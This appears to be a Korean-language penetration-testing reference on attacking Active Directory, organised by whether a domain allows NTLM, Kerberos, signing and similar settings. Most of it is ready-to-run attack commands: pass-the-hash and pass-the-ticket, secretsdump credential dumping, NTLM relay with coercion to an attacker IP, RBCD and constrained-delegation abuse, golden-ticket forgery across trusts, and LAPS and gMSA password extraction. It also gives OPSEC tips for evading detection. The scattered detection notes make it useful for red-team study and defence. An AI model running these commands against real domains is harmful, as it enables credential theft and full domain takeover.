

# AD 환경 공격

AD 환경의 인증 구성(Kerberos, NTLM, LDAP Signing 등)에 따라 사용 가능한 공격 기법과 명령어가 달라진다.

target의 환경 설정을 먼저 파악한 후 적합한 공격 방식을 선택해야 한다.

---

## 인증 프로토콜 판별

### 현재 환경 확인

```bash
# SMB Signing 확인 (nxc)
nxc smb <ip>
# 출력에서 (signing:True) → SMB Signing 강제
# (signing:False) → NTLM Relay 가능성 있음

# LDAP Signing / Channel Binding 확인
nxc ldap <dc_ip> -u <user> -p <pass> -M ldap-checker

# Kerberos 인증 가능 여부 (88 포트)
nmap -p 88 <dc_ip>
```

```powershell
# 도메인 기능 수준 확인 (Windows)
Get-ADDomain | Select-Object DomainMode
Get-ADForest | Select-Object ForestMode

# NTLM 제한 정책 확인
Get-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" -Name LmCompatibilityLevel
# 5 = NTLMv2만 허용, NTLM/LM 거부
```

---

## 인증 방식별 명령어 분기

대부분의 Impacket, nxc 도구는 패스워드 / NTLM 해시 / Kerberos 티켓 세 가지 인증 방식을 지원한다. target 환경에 따라 적절한 방식을 선택한다.

### 패스워드 인증 (기본)

```bash
# Impacket 계열
impacket-psexec <domain>/<user>:'<pass>'@<ip>
impacket-wmiexec <domain>/<user>:'<pass>'@<ip>
impacket-secretsdump '<domain>/<user>:<pass>@<dc_ip>'
impacket-GetUserSPNs <domain>/<user>:<pass> -dc-ip <dc_ip> -request

# nxc
nxc smb <ip> -u <user> -p '<pass>'
nxc winrm <ip> -u <user> -p '<pass>'
nxc ldap <ip> -u <user> -p '<pass>'

# evil-winrm
evil-winrm -i <ip> -u <user> -p '<pass>'

# certipy
certipy find -vulnerable -u <user> -p '<pass>' -dc-ip <dc_ip>
```

### NTLM Hash 인증 (Pass-the-Hash)

NTLM 인증이 허용된 환경에서만 동작한다. `LmCompatibilityLevel`이 NTLM을 거부하도록 설정된 경우 PtH는 실패한다.

```bash
# Impacket (-hashes LM:NT 형식, LM은 빈 값 가능)
impacket-psexec <user>@<ip> -hashes :<ntlm_hash>
impacket-wmiexec <user>@<ip> -hashes :<ntlm_hash>
impacket-secretsdump '<domain>/<user>@<dc_ip>' -hashes :<ntlm_hash>
impacket-GetUserSPNs <domain>/<user> -hashes :<ntlm_hash> -dc-ip <dc_ip> -request

# nxc (-H 옵션)
nxc smb <ip> -u <user> -H <ntlm_hash>
nxc winrm <ip> -u <user> -H <ntlm_hash>
nxc ldap <ip> -u <user> -H <ntlm_hash>
nxc mssql <ip> -u <user> -H <ntlm_hash>

# evil-winrm
evil-winrm -i <ip> -u <user> -H <ntlm_hash>

# certipy
certipy find -u <user> -hashes :<ntlm_hash> -dc-ip <dc_ip>
certipy shadow auto -username <user>@<domain> -hashes <ntlm_hash> -account <target>
```

### Kerberos 인증 (Pass-the-Ticket)

NTLM이 비활성화되었거나 Kerberos만 허용하는 환경에서 사용한다. `.ccache` 티켓 파일 필요.

**사전 조건:**

- `/etc/krb5.conf`에 도메인 정보 설정되어 있어야 함
- DNS 또는 `/etc/hosts`에 DC의 FQDN이 등록되어 있어야 함
- 시간 동기화(skew 5분 이내)가 맞아야 함

```ini
# /etc/krb5.conf 예시
[libdefaults]
    default_realm = <DOMAIN.COM>
    dns_lookup_realm = false
    dns_lookup_kdc = true

[realms]
    <DOMAIN.COM> = {
        kdc = <dc_fqdn>
        admin_server = <dc_fqdn>
    }

[domain_realm]
    .<domain.com> = <DOMAIN.COM>
    <domain.com> = <DOMAIN.COM>
```

```bash
# 시간 동기화
sudo ntpdate <dc_ip>
# 또는
sudo timedatectl set-ntp false
sudo date -s "$(curl -s --head http://<dc_ip> | grep Date | cut -d' ' -f3-6)"

# hosts 파일에 DC FQDN 등록
echo "<dc_ip> <dc_fqdn> <domain>" | sudo tee -a /etc/hosts
```

```bash
# TGT 획득 (패스워드로)
impacket-getTGT <domain>/<user>:'<pass>' -dc-ip <dc_ip>

# TGT 획득 (NTLM Hash로)
impacket-getTGT <domain>/<user> -hashes :<ntlm_hash> -dc-ip <dc_ip>

# TGT 획득 (AES256 키로, OPSEC 우수)
impacket-getTGT <domain>/<user> -aesKey <aes256_key> -dc-ip <dc_ip>

# .ccache 파일을 환경변수로 지정
export KRB5CCNAME=<user>.ccache
```

```bash
# Kerberos 인증으로 도구 실행 (-k -no-pass 플래그)
impacket-psexec <domain>/<user>@<dc_fqdn> -k -no-pass
impacket-wmiexec <domain>/<user>@<dc_fqdn> -k -no-pass
impacket-smbexec <domain>/<user>@<dc_fqdn> -k -no-pass
impacket-secretsdump <domain>/<user>@<dc_fqdn> -k -no-pass
impacket-GetUserSPNs <domain>/<user> -k -no-pass -dc-host <dc_fqdn>

# nxc Kerberos 인증 (--kerberos 플래그)
nxc smb <dc_fqdn> -u <user> -p '<pass>' --kerberos
nxc smb <dc_fqdn> --kerberos --kdcHost <dc_fqdn> --use-kcache

# evil-winrm (Kerberos 인증은 직접 미지원, 별도 설정 필요)

# bloodhound-python
bloodhound-python -u <user> -d <domain> -dc <dc_fqdn> -c all \
  -ns <dc_ip> --kerberos
```

!!! warning "Kerberos 인증 시 주의"
    Kerberos 인증은 반드시 FQDN(호스트 이름)을 사용해야 한다. IP 주소로는 Kerberos 인증이 불가능하다.
    `-k` 플래그 사용 시 target을 IP가 아닌 FQDN으로 지정할 것.

---

## 환경별 공격 가능 여부 매트릭스

### NTLM 허용 vs 비허용

| 공격/기법 | NTLM 허용 | NTLM 비허용 (Kerberos Only) |
|-----------|-----------|----------------------------|
| Pass-the-Hash | O | X |
| Pass-the-Ticket | O | O |
| NTLM Relay | O | X |
| Kerberoasting | O | O |
| AS-REP Roasting | O | O |
| DCSync | O (hash) | O (ticket) |
| evil-winrm (hash) | O | X |
| PSExec (hash) | O | X |
| Overpass-the-Hash | O | O (hash → ticket 변환) |
| Silver Ticket | O | O |
| Golden Ticket | O | O |

### SMB Signing

| 설정 | NTLM Relay | PtH (SMB) | PSExec |
|------|------------|-----------|--------|
| Signing 강제 (Required) | X | O | O |
| Signing 비강제 (Not Required) | O | O | O |

### LDAP Signing / Channel Binding

| 설정 | LDAP Relay | LDAP 평문 질의 |
|------|-----------|---------------|
| Signing 필수 + Channel Binding | X | X (TLS 필요) |
| Signing 필수 | X | O (서명 포함 시) |
| 비강제 | O | O |

---

## Overpass-the-Hash (Pass-the-Key)

NTLM이 비활성화된 환경에서 NTLM 해시를 Kerberos TGT로 변환하여 사용하는 기법.
NTLM 해시만 갖고 있지만 NTLM 인증이 차단된 경우에 유용하다.

```bash
# NTLM Hash로 TGT 요청 → .ccache 파일 생성
impacket-getTGT <domain>/<user> -hashes :<ntlm_hash> -dc-ip <dc_ip>

# AES256 키로 TGT 요청 (secretsdump로 AES 키 획득 가능)
impacket-getTGT <domain>/<user> -aesKey <aes256_key> -dc-ip <dc_ip>

export KRB5CCNAME=<user>.ccache

# 이후 -k -no-pass로 도구 사용
impacket-psexec <domain>/<user>@<dc_fqdn> -k -no-pass
```

```powershell
# Windows (Rubeus)
.\Rubeus.exe asktgt /user:<user> /rc4:<ntlm_hash> /ptt
.\Rubeus.exe asktgt /user:<user> /aes256:<aes_key> /ptt /opsec
```

!!! note "AES vs RC4"
    RC4(NTLM 해시)로 TGT를 요청하면 downgrade 공격으로 탐지될 수 있다.
    AES256 키를 사용하면 정상 인증과 구분이 어려워 OPSEC 측면에서 유리하다.
    `impacket-secretsdump`에서 `-just-dc-user`로 특정 계정의 AES 키를 추출할 수 있다:
    `impacket-secretsdump '<domain>/<user>:<pass>@<dc_ip>' -just-dc-user <target>`

---

## NTLM Relay

NTLM 인증 요청을 중간에서 가로채 다른 서비스로 릴레이하는 공격.

!!! info "관련 문서"
    프로토콜 자체 설명(NetNTLMv1/v2, 해시 유형, 보안 통제 매트릭스, 탐지 관점)은 [NTLM](../lifecycle/ntlm.md) 문서 참고. 강제 인증(Coercion) 기법은 [NTLM Coercion](coercion.md) 참고.



**필수 조건:**

- target 서비스의 SMB Signing이 비활성화(Not Required)이거나
- LDAP Signing/Channel Binding이 비강제이거나
- ADCS HTTP Enrollment Endpoint에 EPA(Extended Protection)가 없는 경우

```bash
# ntlmrelayx (SMB Relay)
impacket-ntlmrelayx -tf targets.txt -smb2support

# ntlmrelayx (LDAP Relay → 계정 생성, ACL 수정 등)
impacket-ntlmrelayx -t ldap://<dc_ip> --delegate-access

# ntlmrelayx (ADCS HTTP Relay → 인증서 획득)
impacket-ntlmrelayx -t http://<ca_ip>/certsrv/certfnsh.asp \
  --adcs --template <template>

# 인증 유도 (PetitPotam, Coercer 등)
python3 PetitPotam.py <attacker_ip> <target_ip>
python3 Coercer.py -u <user> -p <pass> -d <domain> -l <attacker_ip> -t <target_ip>
```

!!! warning "탐지"
    NTLM Relay: Event 4624 (Type 3 로그온) 소스 IP와 대상 호스트 불일치 모니터링. SMB Signing 활성화 및 LDAP Channel Binding 설정으로 예방.

### Relay target 선정

```bash
# SMB Signing 비활성화 호스트 찾기
nxc smb <subnet>/24 --gen-relay-list targets.txt
```

---

## Kerberos Delegation 공격 { #kerberos-delegation-공격 }

### Unconstrained Delegation

Unconstrained Delegation이 설정된 서버는 접속한 사용자의 TGT를 메모리에 캐시한다. DC의 컴퓨터 계정이 해당 서버에 접속하도록 유도하면 DC의 TGT를 탈취할 수 있다.

```bash
# Unconstrained Delegation 서버 찾기
impacket-findDelegation <domain>/<user>:<pass> -dc-ip <dc_ip>

# BloodHound에서도 확인 가능 (UNCONSTRAINED DELEGATION 노드)

# PrinterBug / SpoolSample로 DC 강제 인증 유도
python3 printerbug.py <domain>/<user>:<pass>@<dc_ip> <delegation_server_ip>
```

### Constrained Delegation

S4U2Self + S4U2Proxy를 통해 위임된 서비스에 대한 서비스 티켓을 요청한다.

```bash
# Constrained Delegation 설정 확인
impacket-findDelegation <domain>/<user>:<pass> -dc-ip <dc_ip>

# S4U를 이용해 administrator의 서비스 티켓 획득
impacket-getST <domain>/<svc_account>:<pass> \
  -spn <target_spn> -impersonate Administrator -dc-ip <dc_ip>

export KRB5CCNAME=Administrator@<target_spn>.ccache
impacket-psexec <domain>/Administrator@<target_fqdn> -k -no-pass
```

!!! tip "Bronze Bit (CVE-2020-17049)"
    Constrained Delegation에서 `forwardable` 플래그가 불허된 경우에도 티켓을 위조하여 강제로 위임할 수 있다 (2020년 11월 패치).  
    `impacket-getST` 에서 `-force-forwardable` 플래그를 추가하면 된다.

### Resource-Based Constrained Delegation (RBCD)

대상 컴퓨터의 `msDS-AllowedToActOnBehalfOfOtherIdentity` 속성을 수정할 수 있으면 RBCD 공격이 가능하다.

```bash
# 1. 새 컴퓨터 계정 생성 (MAQ > 0 이면 가능, 기본값 10)
impacket-addcomputer <domain>/<user>:<pass> -computer-name 'FAKE$' \
  -computer-pass 'FakePass123!' -dc-ip <dc_ip>

# 2. 대상 컴퓨터의 RBCD 속성에 새 컴퓨터 등록
impacket-rbcd <domain>/<user>:<pass> -dc-ip <dc_ip> \
  -action write -delegate-to '<target_computer>$' -delegate-from 'FAKE$'

# 3. S4U2Proxy로 서비스 티켓 획득
impacket-getST <domain>/'FAKE$':'FakePass123!' \
  -spn cifs/<target_fqdn> -impersonate Administrator -dc-ip <dc_ip>

export KRB5CCNAME=Administrator@cifs_<target_fqdn>.ccache
impacket-psexec <domain>/Administrator@<target_fqdn> -k -no-pass
```

!!! note "MAQ (MachineAccountQuota)"
    `ms-DS-MachineAccountQuota` 기본값은 10이다. 이 값이 0이면 일반 사용자가 컴퓨터 계정을 생성할 수 없으므로 RBCD 공격의 첫 단계가 차단된다.  
    `nxc ldap <dc_ip> -u <user> -p <pass> -M maq`로 확인 가능.

!!! warning "탐지"
    RBCD: Event 5136 (디렉터리 객체 수정) 에서 `msDS-AllowedToActOnBehalfOfOtherIdentity` 속성 변경 감지. 비정상 컴퓨터 계정 생성 (Event 4741) 모니터링.

---

## 도메인 신뢰(Trust) 공격

### 양방향 신뢰 (Bidirectional Trust)

```bash
# 신뢰 관계 확인
nltest /trusted_domains
Get-ADTrust -Filter *

# 다른 도메인의 SID 확인
impacket-lookupsid <domain>/<user>:<pass>@<other_dc_ip>

# Inter-realm TGT 요청 (Golden Ticket + SID History)
# 현재 도메인의 krbtgt 해시 + target 도메인의 SID로 TGT 위조
impacket-ticketer -nthash <krbtgt_hash> -domain-sid <current_sid> \
  -domain <current_domain> -extra-sid <target_domain_sid>-519 Administrator
```

### 단방향 신뢰 (One-way Trust)

```bash
# 신뢰 방향 확인
# Trust Direction: Inbound = 타 도메인에서 현재 도메인 리소스 접근 가능
# Trust Direction: Outbound = 현재 도메인에서 타 도메인 리소스 접근 가능

Get-ADTrust -Filter * | Select-Object Name, Direction, TrustType
```

---

## 주요 환경 설정 확인 체크리스트

실무에서 AD 환경을 평가할 때 아래 항목들을 먼저 확인한다.

| 항목 | 확인 방법 | 공격 영향 |
|------|-----------|-----------|
| SMB Signing | `nxc smb <ip>` | Relay 가능 여부 |
| LDAP Signing | `nxc ldap <ip> -M ldap-checker` | LDAP Relay 가능 여부 |
| NTLM 허용 여부 | `LmCompatibilityLevel` 레지스트리 | PtH 가능 여부 |
| Kerberos AES 지원 | Domain Functional Level 확인 | OPSEC (AES vs RC4) |
| MachineAccountQuota | `nxc ldap <ip> -M maq` | RBCD 가능 여부 |
| ADCS 존재 | `nxc ldap <ip> -M adcs` | ESC1~ESC16 |
| Credential Guard | `DeviceGuardSecurityServicesConfigured` | lsass 덤프 불가 |
| LAPS | `nxc ldap <ip> -M laps` | 로컬 admin PW 관리 여부 |
| gMSA | `nxc ldap <ip> -M gmsa` | 서비스 계정 PW 읽기 |
| Protected Users | `net group "Protected Users" /domain` | PtH/위임 공격 불가 |
| AdminSDHolder | SDProp으로 ACL 복원됨 | ACL 공격 지속성 제한 |
| Print Spooler | `ls \\<target>\pipe\spoolss` | PrinterBug/강제 인증 |
| WebDAV | `nxc smb <ip> -M webdav` | WebDAV NTLM Relay |

---

## Protected Users 그룹

이 그룹의 멤버는 다음 제한이 적용된다:

- NTLM 인증 불가 (Kerberos만 사용)
- Kerberos delegation 불가
- Kerberos TGT 수명 4시간으로 제한
- DES/RC4 Kerberos 사전 인증 불가 (AES만 허용)
- Credential 캐싱 불가

```powershell
# Protected Users 그룹 멤버 확인
net group "Protected Users" /domain
Get-ADGroupMember "Protected Users"
```

이 그룹에 속한 계정은 PtH, 위임 공격 등이 불가능하므로 다른 경로를 찾아야 한다.

---

## LAPS (Local Administrator Password Solution)

LAPS가 배포된 환경에서는 컴퓨터 객체의 `ms-Mcs-AdmPwd` 속성에 로컬 관리자 패스워드가 저장된다. 이 속성을 읽을 권한이 있으면 로컬 관리자 패스워드를 획득할 수 있다.

```bash
# nxc로 LAPS 패스워드 읽기
nxc ldap <dc_ip> -u <user> -p <pass> -M laps

# ldapsearch로 직접 질의
ldapsearch -x -H ldap://<dc_ip> -D "<domain>\<user>" -w '<pass>' \
  -b "dc=<domain>,dc=<tld>" "(ms-Mcs-AdmPwd=*)" ms-Mcs-AdmPwd ms-Mcs-AdmPwdExpirationTime
```

---

## gMSA (Group Managed Service Account)

gMSA 계정의 패스워드는 AD에서 자동 관리되며, `msDS-GroupMSAMembership`에 지정된 주체만 읽을 수 있다.

```bash
# nxc로 gMSA 패스워드 읽기
nxc ldap <dc_ip> -u <user> -p <pass> -M gmsa

# gMSA 해시 덤프
python3 gMSADumper.py -u <user> -p <pass> -d <domain>
```
